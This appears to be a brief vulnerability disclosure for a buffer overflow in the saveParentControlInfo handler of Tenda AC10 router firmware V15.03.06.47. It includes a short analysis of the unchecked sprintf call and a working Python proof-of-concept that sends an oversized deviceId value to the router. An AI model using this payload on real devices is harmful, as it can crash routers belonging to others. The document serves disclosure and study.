


# buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/saveParentControlInfo

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:




get value from deviceId ,then call set_device_name



if deviceName and deviceId are are not null,set_device_name send to mac_addr, call sprintf, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceName': '1', 'deviceId': payload,'time':'1'})
``` 
